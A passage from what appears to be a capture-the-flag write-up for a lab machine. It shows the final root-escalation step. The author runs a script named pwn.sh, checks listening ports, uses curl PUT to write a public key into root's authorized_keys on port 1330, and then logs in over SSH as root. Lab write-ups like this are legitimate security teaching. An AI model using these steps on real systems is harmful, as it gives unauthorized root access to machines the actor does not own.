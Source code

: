     <img src="image-7.png" alt="alt text" width="500">
</div>


Then, we can run the script by
```bash
chmod +x pwn.sh; ./pwn.sh;
```
We can use `ss -tlpn` to verify our configuration is successful.
<div style="text-align: center;">
    <img src="image-8.png" alt="alt text" width="500">
</div>


and yay, we now can write our public key to root's authorized keys by
```bash
curl -X PUT 10.10.11.243:1330/root/.ssh/authorized_keys -d "$(cat root.pub)"
```
and ssh using our generated key earlier
```bash
ssh root@10.10.11.243 -i root -T
```
I used `-T` flag since it keeps telling me pseudo-terminal will not be allocated because stdin is not a terminal. So, `-T` will disable pseudo-terminal allocation.
<div style="text-align: center;">